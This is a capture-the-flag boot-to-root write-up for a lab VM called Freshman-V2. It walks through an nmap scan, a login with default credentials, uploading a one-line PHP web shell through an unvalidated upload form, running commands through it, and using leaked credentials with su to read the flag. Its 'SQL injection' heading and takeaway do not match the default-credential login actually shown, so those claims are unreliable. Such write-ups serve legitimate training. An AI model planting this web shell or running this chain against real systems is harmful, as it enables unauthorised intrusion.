





# 🖥️ Freshman-V2 — User (Boot-to-Root)

---

## Flag
```
hack10{3asy_p3asy_1n1t1al_acc3ss}
```

---

## Challenge Overview



This challenge provides a vulnerable virtual machine (OVA file).

### Objective:
- Gain initial access to the system  
- Retrieve the **user flag**

---

## Environment Setup

Two machines were used:

- **Attacker**: Kali Linux  
- **Target**: Freshman-V2 VM  

### Network Configuration:
- Both machines set to **Host-Only Network**

---

## Target Information



From the target interface:

```
IP Address: 192.168.56.107
```

---

## Step 1: Enumeration (Nmap)

Scan all ports:

```bash
nmap -sC -sV -p- 192.168.56.107
```

### Results:

```
21/tcp    open  ftp     vsftpd 3.0.5
80/tcp    open  http    Apache 2.4.52
3306/tcp  open  mysql
8080/tcp  open  nginx 1.18.0
33060/tcp open  mysqlx
```

### Observation:
Multiple services available → large attack surface  
Focus shifted to **web service (port 80)**

---

## Step 2: Web Exploitation (SQL Injection)

Access:

```
http://192.168.56.107
```
A login page is presented.



### Credentials Used:

```
Username: admin  
Password: admin
```

### Result:
- Successfully authenticated into the application 
- Redirected to file upload page



---

## Step 3: File Upload → RCE

The upload functionality does **not properly validate file types**.

### Payload:

```php
<?php system($_GET["cmd"]); ?>
```

Upload as:
```
shell.php
```

---

## Step 4: Remote Code Execution

Test the shell:

```
http://192.168.56.107/uploads/shell.php?cmd=id
```

### Output:
```
uid=33(www-data)
```

✅ Remote command execution achieved.

---

## Step 5: Privilege Discovery

Search for useful files:

```bash
find / -type f -name "*.txt" 2>/dev/null
```

### Key Finding:
```
/tmp/dev_notes.txt
```

---

## Step 6: Credential Discovery

Read file:

```bash
cat /tmp/dev_notes.txt
```



### Discovered Credentials:
```
Username: freshman
Password: freshman123
```

---

## Step 7: Switch User

Since shell is non-interactive:

```bash
echo freshman123 | su freshman -c 'cat /home/freshman/user.txt'
```

---

## Step 8: Retrieve Flag

The file contains Base64 encoded content.

### Decode using CyberChef or base64:

```bash
echo "encoded_string" | base64 -d
```

---

## Final Result

```
hack10{3asy_p3asy_1n1t1al_acc3ss}
```

---

## Key Takeaways

- SQL Injection can lead to authentication bypass  
- Weak file upload validation enables RCE  
- Sensitive files may leak credentials  
- Non-interactive shells require alternative techniques  
- Base64 encoding is commonly used to hide flags  

---

## Tools Used

- Nmap  
- Web browser  
- PHP (web shell)  
- Linux commands (`find`, `cat`, `su`)  
- CyberChef / base64  

---

## Skills Developed

- Network enumeration  
- Web exploitation (SQL Injection)  
- File upload bypass techniques  
- Remote Code Execution (RCE)  
- Privilege escalation basics (credential reuse)  
- Post-exploitation enumeration  

---

⭐ *This challenge demonstrates a full initial compromise chain from web vulnerability to system access.*
